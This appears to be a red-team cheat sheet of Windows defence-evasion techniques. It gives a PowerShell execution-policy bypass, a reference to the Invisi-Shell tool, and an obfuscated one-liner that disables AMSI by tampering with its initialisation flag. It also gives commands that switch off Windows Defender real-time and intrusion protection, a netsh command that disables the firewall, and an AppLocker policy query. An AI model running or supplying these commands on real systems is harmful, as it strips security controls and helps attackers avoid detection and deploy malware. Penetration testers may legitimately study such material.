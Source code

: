 # Evasion Teachniques

## PowerShell

### Execution Policy

```
powershell -ep Bypass
```

### Invisi-Shell

We can use Invisi-Shell (https://github.com/OmerYa/Invisi-Shell) to bypass other powershell protection mechanisim execpt AMSI:

```
RunWithPathAsAdmin.bat (With admin privileges)
RunWithRegistryNonAdmin.bat (With non-admin privileges)
```
Type exit from the new PowerShell session to complete the clean-up.

### AMSI 

If admin rights are not available:

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Windows Defender:

Disable Windows Defender using powershell (Requires Local Admin rights):

```
Set-MPPreference -DisableRealTimeMonitoring $true
Set-MPPreference -DisableIOAVProtection $true
Set-MPPreference -DisableIntrusionPreventionSystem $true
```

## Windows Firewall:

Disable Windows Firewall using powershell (Requires Local Admin rights):

```
Netsh Advfirewall set allprofiles state off
```

## AppLocker

Check AppLocker policies using powershell.

```
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2\Script\06dce67b-934c-454fa263-2515c8796a5d
```
